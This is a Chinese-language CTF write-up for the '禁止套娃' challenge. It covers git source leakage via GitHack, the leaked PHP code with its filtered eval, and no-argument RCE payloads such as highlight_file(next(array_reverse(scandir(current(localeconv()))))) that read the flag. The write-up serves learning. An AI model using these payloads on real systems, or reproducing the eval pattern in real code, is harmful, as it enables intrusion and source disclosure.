



# 1.git源码泄露
- [GXYCTF2019]禁止套娃
参考https://www.cnblogs.com/zzjdbk/p/13720677.html
进入环境只有'flag在哪里呢？'
尝试抓包，查看源代码，目录扫描，都没什么结果
扫描时有.git出现，可能是git源码泄露，进入kali，进入GitHack目录，执行命令

```
python GitHack.py http://c557ffa3-1119-488c-b829-3ee9a9701744.node5.buuoj.cn:81/.git
```

发现index.php文件，下载
```
wget -r http://c557ffa3-1119-488c-b829-3ee9a9701744.node5.buuoj.cn:81/index.php
```
```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```
许多协议都被过滤了，还使用了正则匹配，其实就是无参数RCE，参考http://t.csdnimg.cn/KOske
payload
```
?exp=print_r(scandir(current(localeconv())));
返回Array ( [0] => .git [1] => flag.php [2] => index.php ) 
接下来只需要读取倒数第二个数组，先用array_reverse将数组逆序，再用next输出下一个
?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```